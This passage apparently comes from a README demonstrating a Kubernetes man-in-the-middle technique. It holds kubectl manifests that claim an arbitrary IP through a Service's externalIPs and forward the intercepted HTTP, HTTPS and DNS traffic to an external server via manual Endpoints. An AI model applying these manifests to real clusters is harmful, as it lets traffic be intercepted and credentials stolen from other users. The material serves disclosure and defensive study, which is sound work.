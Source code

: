 Or to perform the MITM using ExternalIP, just replace `<IP>` with the IP you want to MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-externalip
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: ClusterIP
  externalIPs:
    - <IP>
EOF
```

You can also redirect the MITM traffic to an external server, by removing the selector of the service, and manually creating Endpoints
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Endpoints
metadata:
  name: mitm-externalip
  namespace: kubeproxy-mitm
subsets:
- addresses:
  - ip: <EXTERNAL SERVER IP>
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
EOF
```

This also works for UDP (so DNS)

## Asciinema

### Pre-checks
[![2](https://asciinema.org/a/fZriwcMLxIAhOPiTW4LSwB3rG.svg)](https://asciinema.org/a/fZriwcMLxIAhOPiTW4LSwB3rG)
